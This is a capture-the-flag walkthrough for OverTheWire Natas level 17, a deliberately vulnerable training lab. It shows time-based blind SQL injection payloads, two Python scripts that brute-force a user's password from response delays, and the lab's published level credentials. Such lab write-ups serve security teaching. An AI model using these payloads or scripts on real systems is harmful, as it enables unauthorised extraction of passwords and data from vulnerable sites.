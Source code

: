 # Level 16 - Level 17

```
Username: natas17
Password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
URL:      http://natas17.natas.labs.overthewire.org
```

## Overview

Again, we got an input field with a link to the source code.

<figure><img src="../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

***

## Source Code Analysis

Form taking a look at the source code we can see that the query is vulnerable to SQL injection.

<figure><img src="../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

But all the errors that are to be thrown due to the SQL injection payloads are commented out.

<figure><img src="../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

So we can't perform error based or boolean based SQL Injection.

***

## Testing Time Based SQL Injection

So let's opt out for Time Based injection. Let's try the following payload, since we know that there is going to be a user named `natas18` in the table ( from the patterns followed in previous  levels ):

```sql
natas18" AND sleep(5) #
```

You can see that the browser responded with no errors after 5 seconds.

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Now, we have confirmed that there is user named `natas18`. Now we have to retrieve the password for  that particular user. To do that we are going to brute force with alphanumerice letters, trying to match the password string, like we did in the last level using regexp, but this time we are going to make use of the SQL operator LIKE.

Let's try the following payload:

```sql
natas18" AND BINARY password LIKE "a%" AND SLEEP(5) #
```

It responded immediately, which means the password doesn't start with the letter a. Let's find the first character by using a simple python script, in which we are going set the value of SLEEP to be 1 and we will filter the responses based on the response time, i.e., if the response time is greater than 1, then that is the first character of the password.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

for character in characters:
    start_time = time()

    response = session.post(
        "http://natas17.natas.labs.overthewire.org/index.php",
        auth=HTTPBasicAuth(username="natas17",
                            password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
        data={"username": 'natas18" AND BINARY password LIKE "' + character + '%" AND SLEEP(1) # '}
    )

    end_time = time()
    difference = end_time - start_time

    if difference > 1:
        password += character
        break

print("Password: ", password)
```
{% endcode %}

The above script responded with the following output, from which we have found the first letter of the password.&#x20;

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Entire Password

Now its time to fetch the entire password. The following python script will fetch the entire password based on the response time of the requests.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

while len(password) < 32:
    for character in characters:
        start_time = time()

        response = session.post(
            "http://natas17.natas.labs.overthewire.org/index.php",
            auth=HTTPBasicAuth(username="natas17",
                               password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
            data={"username": 'natas18" AND BINARY password LIKE "' +
                  "".join(password) + character + '%" AND SLEEP(1) # '}
        )

        end_time = time()
        difference = end_time - start_time

        if difference > 1:
            password += character
            break
    print("Password: ", password)
```
{% endcode %}

The password for the next level has been obtained from the output of the above script.

<figure><img src="../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

